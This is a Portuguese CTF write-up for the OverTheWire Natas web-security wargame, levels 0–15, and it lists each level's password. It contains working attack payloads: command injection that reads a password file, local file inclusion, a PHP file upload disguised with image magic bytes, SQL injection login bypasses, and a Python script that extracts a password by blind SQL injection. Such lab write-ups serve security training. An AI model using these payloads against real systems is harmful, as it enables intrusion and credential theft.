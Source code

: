 OverTheWire - Natas

Natas 0:
- Inspecionar a pagina
- `Flag: gtVrDuiDfck831PqWsLEZy5gyDz1clto`

Natas 1:
- Inspecionar a pagina
- `Flag: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi`

Natas 2:
- Inspecinar pagina
- files/pixel.png
- http://natas2.natas.labs.overthewire.org/files/
- http://natas2.natas.labs.overthewire.org/files/users.txt

```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

Natas 3:
- Comentario:  No more information leaks!! Not even Google will find it this time...
- http://natas3.natas.labs.overthewire.org/robots.txt
- http://natas3.natas.labs.overthewire.org/s3cr3t/
- http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
- `natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`

Natas 4:
- Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
- Refazer a requisicao com `Referer: http://natas5.natas.labs.overthewire.org/`
- Flag: `iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

Natas 5:
- Access disallowed. You are not logged in
- Inspecionando a requisicao tem loggedin=0
- alterando para 1
- Flag: `aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

Natas 6:
- Sorce code contem: `include "includes/secret.inc";`
- `http://natas6.natas.labs.overthewire.org/includes/secret.inc`
- Payload:
```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
- Flag: `7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`


Natas 7:
-  hint: password for webuser natas8 is in /etc/natas_webpass/natas8
- `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`
- Flag: `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`


Natas 8:
- Source code tem: `bin2hex(strrev(base64_encode($secret)))`
- Entao fiz o reverso disso base64_dencode(strrev(hex2bin($secret)));
- Acho a senha `oubWYf2kBq`
- Flag: `W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`


Natas 9:
- No source cod tem : `passthru("grep -i $key dictionary.txt");`
- Lembrar da descricao 'All passwords are also stored in /etc/natas_webpass/'
- comando `; cat /etc/natas_webpass/natas10  ;`
- Flag: `nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

Natad 10:
- Comando `-E .* /etc/natas_webpass/natas11`
- `grep -i -E .* /etc/natas_webpass/natas11 dictionary.txt`
- Flag: `U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`


Natas 11:
- por ser uma cifra xor tem a seguinte propriedade
`A xor B = C` -> `A xor C = B`
- Assim vi que o criptograma
`ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=`
foi gerado por
`json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"))`
- Fazendo o criptograma xor o json tenho a seguinte chave
`qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq`
- Encriptando
`json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"))`
com a chave `qw8J` tenho o seguinte criptograma
`ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK`
- Colocando esse criptograma no cookie temos
- Flag: `EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`


Natas 12
- Basta upar um codigo php para ler o arquivo com a flag
```
<?php
$fh = fopen('/etc/natas_webpass/natas13','r');
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```
- Para isso tem que editar a linha
`<input type="hidden" name="filename" value="f4z5i3idq7.jpg">`
para php
- Flag: `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`


Natas 13:
- Mesma coisa que o Natas 12
- Mas agora tem que dar bypass no `exif_imagetype`
essa funcao verifica os primeiros bytes do arquivo para saber se eh imagem
assim colocando os magic numbers antes do cod php ela acha que eh uma imagem
```
>>> f = open('shell.php', 'w')
>>> f.write('\xFF\xD8\xFF\xE0' + "<?php  $fh = fopen('/etc/natas_webpass/natas14','r'); while ($line = fgets($fh)) { echo($line); } fclose($fh); ?>")
>>> f.close()
```
- Flag: `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`


Natas 14:
- SQLi
- login: `" or 1 = 1 #`  password: ""
- Flag: `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`


Natas 15:
- blind sqli fiz bit a bit
- `https://www.exploit-db.com/papers/17073`
```
import requests


def check(response):
	if 'This user exists' in response:
		return True
	return False


url = "http://natas15.natas.labs.overthewire.org/index.php"

payload = "------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"username\"\r\n\r\n"
headers = {
    'content-type': "multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW",
    'Authorization': "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="
    }



l = 1
flag = ''
verify = 'false'
while (check(verify) == False):
	letter = ''
	candidate = ''
	for i in range(6, -1, -1):
		candidate = letter + '0'
		sqli = "natas16\" and (ascii(substr(password,"+str(l)+",1)) >> "+str(i)+")="+ str(int(candidate,2))+"#"
		# print(sqli)
		# print(sqli)
		response = requests.request("POST", url, data=payload+sqli, headers=headers)
		# print(response.text)
		if check(response.text):
			letter += '0'
		else:
			letter += '1'

		print(letter)

	l+=1

	flag += chr(int(letter,2))
	print('Flag: ' + flag)
	sql = 'natas16\" and password = \"'+ flag
	response = requests.request("POST", url, data=payload+sql, headers=headers)
	verify=response.text
```
- Flag: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh



